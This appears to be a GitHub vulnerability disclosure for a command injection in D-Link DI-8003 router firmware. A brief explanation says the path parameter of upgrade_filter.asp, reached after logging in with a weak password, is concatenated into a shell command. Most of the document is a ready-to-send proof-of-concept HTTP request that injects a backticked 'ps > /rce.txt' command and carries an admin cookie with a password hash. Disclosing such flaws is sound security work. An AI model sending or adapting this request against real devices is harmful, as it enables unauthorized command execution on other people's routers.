



# DI8003_command_injection

Firmware brand：D-LInk
Firmware download：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8003

---

# Vulnerability analysis



Enter the page with a weak password, and then upgrade_filter.asp page path parameter, because the command concatenation, resulting in the execution of the command




DI8100.py

```

GET /upgrade_filter.asp?path=http://`ps%20%3E%20/rce.txt` HTTP/1.1

Host: 192.168.0.1

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh,en-US;q=0.9,en;q=0.8

Cookie: wys_userid=admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86

Connection: close


```